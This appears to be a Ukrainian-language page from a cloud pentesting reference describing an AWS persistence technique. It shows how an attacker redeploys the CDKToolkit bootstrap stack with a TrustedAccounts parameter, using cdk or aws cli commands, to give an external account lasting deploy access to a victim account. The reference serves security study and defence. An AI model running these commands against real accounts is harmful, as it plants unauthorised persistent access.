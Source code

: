 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Для отримання додаткової інформації, зверніться до:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK розгортає CFN стек під назвою `CDKToolkit`. Цей стек підтримує параметр `TrustedAccounts`, який дозволяє зовнішнім обліковим записам розгортати проекти CDK у жертвенному обліковому записі. Зловмисник може зловживати цим, щоб надати собі безстроковий доступ до жертвеного облікового запису, використовуючи AWS cli для повторного розгортання стека з параметрами або AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
